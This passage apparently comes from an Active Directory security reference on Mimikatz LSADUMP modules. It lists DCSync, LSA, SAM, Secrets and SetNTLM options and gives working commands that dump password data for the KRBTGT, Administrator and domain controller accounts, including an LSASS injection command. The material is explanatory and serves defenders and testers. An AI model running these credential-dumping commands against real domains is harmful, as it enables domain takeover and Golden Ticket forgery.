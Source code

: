 **DCSync Options:**

* /all – DCSync pull data for the entire domain.
* /user – user id or SID of the user you want to pull the data for.
* /domain (optional) – FQDN of the Active Directory domain. Mimikatz will discover a DC in the domain to connect to. If this parameter is not provided, Mimikatz defaults to the current domain.
* /csv – export to csv
* /dc (optional) – Specify the Domain Controller you want DCSync to connect to and gather data.

There’s also a /guid parameter.

**DCSync Command Examples:**

Pull password data for the KRBTGT user account in the rd.adsecurity.org domain:\
_Mimikatz “lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt” exit_

Pull password data for the Administrator user account in the rd.adsecurity.org domain:\
_Mimikatz “lsadump::dcsync /domain:rd.adsecurity.org /user:Administrator” exit_

Pull password data for the ADSDC03 Domain Controller computer account in the lab.adsecurity.org domain:\
_Mimikatz “lsadump::dcsync /domain:lab.adsecurity.org /user:adsdc03$” exit_

**LSADUMP::LSA** – Ask LSA Server to retrieve SAM/AD enterprise (normal, patch on the fly or inject). Use /patch for a subset of data, use /inject for everything. _Requires System or Debug rights._

* /inject – Inject LSASS to extract credentials
* /name – account name for target user account
* /id – RID for target user account
* /patch – patch LSASS.

Often service accounts are members of Domain Admins (or equivalent) or a Domain Admin was recently logged on to the computer an attacker dump credentials from. Using these credentials, an attacker can gain access to a Domain Controller and get all domain credentials, including the KRBTGT account NTLM hash which is used to create Kerberos Golden Tickets.

```
mimikatz lsadump::lsa /inject /name:c.boyd
```

**LSADUMP::NetSync**

NetSync provides a simple way to use a DC computer account password data to impersonate a Domain Controller via a Silver Ticket and DCSync the target account’s information including the password data\_.\_

**LSADUMP::SAM** – get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts.

**LSADUMP::Secrets** – get the SysKey to decrypt SECRETS entries (from registry or hives).

**LSADUMP::SetNTLM** – Ask a server to set a new password/ntlm for one user.

[**LSADUMP::Trust**](https://adsecurity.org/?p=1588) – Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly).

### MISC
